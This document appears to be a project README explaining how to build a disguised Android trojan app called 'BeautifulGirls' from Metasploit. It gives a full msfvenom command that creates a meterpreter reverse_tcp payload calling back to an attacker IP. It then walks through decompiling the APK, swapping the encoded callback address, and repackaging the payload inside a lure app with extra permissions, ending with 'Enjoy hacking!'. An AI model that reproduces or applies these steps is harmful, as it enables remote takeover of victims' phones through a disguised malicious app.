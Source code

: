 The app "BeautifulGirls" is based on trojan apk generated by metasploit framework.

So how can I build it?

1.Generate trojan apk by metasploit framework.

E.g:
msfvenom -p android/meterpreter/reverse_tcp lhost=172.20.2.143 lport=5555 R>./Payload.apk

2.Then we decompile Payload.apk by jadx-gui-1.3.3-with-jre-win(I didn't find its linux version, if you have, thanks a lot for sharing), and save the source code.

3.Before building a customised trojan, we must ask such a question: where is the information needed for a successful HTTP or TCP connection saved?

Bingo, it's saved in f0a, the byte[] in file Payload.java!

After analyzing the code, I found the algorithms to decode f0a, so, I show the decoding process in this directory "Decode", almost copied from the decompiled files.

4.After that, we understand every time metasploit framework generates a trojan apk, what must be changed is only the byte[] f0a!  

5.Let's begin to build our customised trojan then!

> 1)Open your Android Studio and start from an empty activity;
> 2)Copy the decompiled files to directory java/main/src;
> 3)Press Alt +Enter to erase every red underline you meet;
> 4)Remember to change the byte[] f0a, make sure it's your own ip address,get it from the decompiled file Payload.java (I can't understand how metasploit generates such a byte[], if you know, it will be much easier to change it!);
> 5)Good! You are almost there! Add your customised activities to this project and all is done! Oh,wait a second!
> 6)Don't forget to change AndroidManifest.xml, add permissions, service and so on!

6.Well, we got it! Kind of difficult, Aha~

**Enjoy hacking! Why not start android studio and msfconsole now?**
